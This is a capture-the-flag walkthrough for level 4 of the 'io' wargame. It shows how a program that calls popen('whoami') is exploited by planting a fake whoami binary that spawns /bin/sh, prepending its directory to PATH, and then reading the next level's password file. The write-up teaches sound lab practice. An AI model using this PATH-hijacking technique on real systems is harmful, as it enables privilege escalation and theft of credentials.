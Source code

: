 ####1. Check out the source code in level04.c
```
//writen by bla
#include <stdlib.h>
#include <stdio.h>

int main() {
    char username[1024];
    FILE* f = popen("whoami","r");
    fgets(username, sizeof(username), f);
    printf("Welcome %s", username);

    return 0;
}
```

####2. Doesn't look like we need a buffer overflow for this challenge, considering that we can't really control what goes into the username buffer. One thing we can control, though, is what bash thinks is the `whoami` binary. When a command line utility like `ls` or `cd` or `whoami` is called, bash searches through all the paths in the PATH environment variable for the matching binary. And we *can* control the PATH environment variable in our current bash session. So what we need to do is write our own little binary that calls one of the exec functions, compile it with the name whoami, then modify the PATH environment variable.

####3. We need to find a directory where we have write access, and chances are that /tmp is probably writable. So we type `mkdir /tmp/ZZZ`. Now that we have somewhere to write, here's a sample file named whoami.c:
```
#include <unistd.h>

int main() {
    execl("/bin/sh", "sh", NULL);

    return 0;
}
```

####4. Now we need to compile it:
```
level4@io:/tmp/ZZZ$ gcc -o whoami whoami.c
```

####5. Modify the PATH environment variable:
```
level4@io:/tmp/ZZZ$ export PATH=/tmp/ZZZ:$PATH
level4@io:/tmp/ZZZ$ echo $PATH
/tmp/ZZZ:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```
Excellent, now when we type `whoami`, bash will first search our directory of `/tmp/ZZZ` and run our binary which calls `execl("/bin/sh", "sh", NULL);` and subsequently get us a shell as user level5.

####6. Now we change directories back into /levels and run the level04 binary and watch what happens.
```
level4@io:/tmp/ZZZ$ cd /levels/
level4@io:/levels$ ./level04
sh-4.2$ cat /home/level5/.pass
Welcome [the password for level5]
```
